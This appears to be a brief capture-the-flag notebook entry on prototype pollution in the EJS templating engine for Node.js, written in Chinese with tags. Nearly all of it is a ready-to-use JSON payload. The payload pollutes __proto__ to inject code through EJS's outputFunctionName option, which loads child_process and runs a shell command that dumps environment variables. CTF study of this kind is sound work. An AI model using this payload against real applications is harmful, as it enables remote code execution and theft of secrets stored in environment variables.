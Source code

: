 tags:: CTF/JS, CTF/JS/原型链污染, CTF/NodeJS/EJS

- EJS原型链污染
- payload:
	- ```json
	  {"__proto__":{"__proto__":{"outputFunctionName":"__tmp1; return global.process.mainModule.constructor._load('child_process').execSync('env'); __tmp2"}}}
	  ```